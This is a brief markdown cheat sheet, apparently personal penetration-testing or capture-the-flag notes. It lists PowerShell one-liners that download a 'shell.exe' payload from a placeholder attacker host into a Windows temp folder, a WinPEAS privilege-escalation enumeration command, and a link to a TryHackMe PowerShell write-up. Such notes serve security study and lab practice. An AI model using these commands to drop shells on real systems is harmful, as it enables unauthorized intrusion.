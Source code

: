 # Usefull Commands

## Download file

```bash
$ powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

$ powershell -c "invoke-WebRequest -Uri 'http://<ip>:<port>/shell.exe' -OutFile 'C:/Windows/Temp/shell.exe'"
```

```bash
$ winpeas.exe cmd > output.txt
```

## Powershell COmmands

https://ratiros01.medium.com/tryhackme-hacking-with-powershell-bf6dbc5febc9